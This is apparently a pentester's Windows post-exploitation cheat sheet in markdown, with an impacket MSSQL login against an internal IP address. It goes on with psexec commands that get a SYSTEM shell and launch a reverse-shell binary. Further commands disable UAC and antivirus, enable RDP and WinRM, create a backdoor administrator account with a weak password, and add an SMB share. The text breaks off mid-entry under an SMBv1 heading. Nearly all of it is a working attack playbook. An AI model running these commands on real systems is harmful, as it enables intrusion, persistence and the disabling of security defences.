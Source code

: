 
## MSSQL

Login using impacket

`impacket-mssqlclient Administrator@192.168.233.18 -windows-auth`



## Post exploitation

* Once Admin privileges obtained get SYSTEM shell
`psexec.exe -accepteula -sid cmd.exe`

Or connect as other service if needed from victim

```powershell

.\psexec.exe /accepteula -i -u "nt authority\local service" c:\rev_shell.exe
```

```powershell
# SET UAC TO 0
C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f

# TURN OFF ANTIVIRUS
run killav



# enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

#* add user
net user Pentester Password1 /ADD

#* give admin rights
net localgroup Administrators Pentester /ADD

#* add to RDP group

powershell -nop -c "Add-LocalGroupMember -Group "Remote Desktop Users" -Member "Pentester""

net localgroup "Remote Desktop Users" Pentester /add

#* Enable winrm to be evil

Enable-PSRemoting -SkipNetworkProfileCheck -Force

#OR

winrm quickconfig -y

# new SMB share

New-SmbShare -Name "wapa" -Path "C:\wapa"

# control SMB

SMBv1
Detect:

PowerShell

```